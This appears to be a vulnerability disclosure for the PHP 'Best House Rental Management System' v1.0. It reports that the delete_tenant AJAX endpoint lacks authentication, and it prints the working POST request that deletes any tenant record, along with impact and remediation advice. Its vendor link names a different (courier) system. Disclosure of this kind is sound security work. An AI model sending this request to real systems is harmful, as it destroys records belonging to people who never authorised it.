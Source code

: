 
### **Best House Rental Management System Unauthorized Tenant Deletion Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP Unauthorized Tenant Deletion Vulnerability  
- **Exploit Author**: Yasser Alshammari  
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

### **Description**

The `/rental/ajax.php?action=delete_tenant` endpoint in the **Best House Rental Management System Project in PHP v1.0** is vulnerable to unauthorized tenant deletion. This occurs because the application does not validate user authentication or authorization before processing the deletion request. An attacker can exploit this vulnerability to delete any tenant by sending a specially crafted POST request with the tenant ID.

### **Payload Used**

```sh
POST /rental/ajax.php?action=delete_tenant HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/rental/index.php?page=tenants
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=12
```

### **Proof of Concept**

Submit the above POST request to the `/rental/ajax.php?action=delete_tenant` endpoint, replacing `id=12` with the ID of any tenant to delete. Observe that the specified tenant record is deleted without requiring authentication or authorization.


### **Impact**

An attacker can delete any tenant record without authentication or authorization. This can result in:
- Loss of critical tenant data.
- Disruption of business operations.
- Financial losses and reputational damage to the organization.

### **Remediation**

- **Authentication**: Require user authentication before processing sensitive operations like tenant deletion.
- **Authorization**: Validate that the requesting user has appropriate permissions to perform deletion actions.
- **CSRF Protection**: Implement CSRF tokens to prevent unauthorized requests from being executed.
